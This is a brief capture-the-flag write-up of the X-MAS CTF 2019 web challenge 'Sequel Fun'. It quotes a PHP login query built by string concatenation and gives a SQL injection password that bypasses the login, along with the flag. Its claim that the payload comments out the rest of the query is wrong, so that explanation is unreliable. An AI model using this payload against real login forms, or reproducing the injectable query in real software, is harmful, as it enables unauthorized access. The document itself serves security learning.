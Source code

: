 # X-MAS CTF 2019 – Sequel Fun

* **Category:** Web
* **Points:** 25

## Challenge

> So I found this login page, but I forgot the credentials :(<br>
 $result = mysqli_query ($conn, "SELECT * FROM users WHERE user='" . $user . "' AND pass='" . $pass . "'", MYSQLI_STORE_RESULT);<br>
(The query has to return atleast a row, that was the condition)
## Solution

username = **admin**<br>
password = **'-'**<br>
These would result in the following query<br>
SELECT * FROM users WHERE user='admin' AND pass=''-''<br> (Password is empty, rest is commented out)<br>

This yields the flag.

```
X-MAS{S0_1_c4n_b3_4dmin_w1th0ut_7h3_p4ssw0rd?}
```
